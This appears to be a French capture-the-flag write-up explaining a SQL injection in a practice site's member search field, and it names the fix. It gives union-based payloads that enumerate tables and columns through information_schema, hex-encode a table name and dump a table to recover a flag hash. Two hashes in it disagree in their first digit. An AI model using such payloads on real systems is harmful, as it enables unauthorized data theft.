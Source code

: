 Security breach name 	: Injection Sql

Principle 				: Utiliser des inputs mal protégés pour accéder à des données sensibles de la base de données, en modifiant les requêtes faites sur celle-ci.

Solve 					: Ne pas insérer directement les valeurs entré par un utilisateur dans une requête Sql, il existe plusieurs méthodes : binder les valeurs, stringifier les valeurs..

In case 				: Dans la barres de recherche membre, la valeur entrée est diretement insérée dans la requêtes ce qui nous permets dans une certaine mesure de modifier son sens. 
							(La requêtes n'accepte que deux arguments pour le select)
							
							
							1. On affiche l'ensemble des tables. : [1 union select table_schema,table_name from information_schema.tables]

							2. L'input remplace les quotes ducoup on écrit la nom de la table en hexa, : [1 union select null,group_concat(column_name) from information_schema.columns where table_name = 0x6c6973745f696d61676573] (list_images)

							3. On récupère les champs qui nous intéresse, : [1 union select title,comment from list_images]
								{
									ID: 1 union select title,comment from list_images 
									Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
									Url : Hack me ?
								}
								{
									md5 hash : 5928e8083cf461a51303633093573c46 =  albatroz
									hash Sh256 = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
								}
